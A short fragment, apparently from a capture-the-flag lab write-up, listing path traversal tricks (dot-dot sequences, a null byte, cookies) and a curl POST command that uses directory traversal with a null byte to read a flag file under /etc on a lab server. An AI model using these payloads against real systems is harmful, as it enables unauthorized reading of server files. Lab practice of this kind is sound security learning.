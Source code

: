 ../
....//
%00
cookies
curl -X POST http://10.10.154.56/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00' --output - 